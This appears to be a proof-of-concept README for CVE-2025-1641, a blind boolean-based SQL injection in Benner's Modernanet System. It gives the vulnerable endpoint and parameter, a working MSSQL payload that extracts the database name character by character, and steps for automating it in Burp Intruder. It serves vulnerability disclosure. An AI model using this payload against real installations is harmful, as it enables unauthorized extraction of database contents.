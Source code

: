 # CVE-2025-1641
The Modernanet System by Benner is vulnerable to Blind Boolean Based SQL Injection.

**Affected Version: < 1.1.1**

**OBS: Tool like SQLmap doesn't work in this case**


## POC

This vulnerability resides in the /AGE0000700/GetHorariosDoDia?idespec=0&idproced=1103&data=2025-02-25+19%3A25&agserv=0&convenio=1&localatend=1&idplano=5&pesfis=01&idprofissional=0&target=.horarios--dia--d0&_=1739371223797 page in convenio parameter,

Its possible to manipulate the parameter to insert any SQL query in victim database.

Payload example: `1)) AND (CASE WHEN (SUBSTRING(DB_NAME(),X,1)='Y') THEN 1 ELSE 0 END=1)--`.

If you want to retrieve the database name, **just for the POC**, its just needed to change the argument X to the database name index and Y to the database name character.

## Request example:
![alt text](request.png)


---


## After intercepting the request, you can use the Intruder option in BurpSuite

### Intruder Example
![alt text](intruder.png)


Observe, we have a longer response length when the letter is 'r', i.e. the first letter of the database name is 'r'.

You can repeat this, to the other letters


## Full url
https://IP/AGE0000700/GetHorariosDoDia?idespec=0&idproced=1103&data=2025-02-25+19%3A25&agserv=0&convenio=1&localatend=1&idplano=5&pesfis=01&idprofissional=0&target=.horarios--dia--d0&_=1739371223797

---

## Reference

https://modernasistemas.com.br/
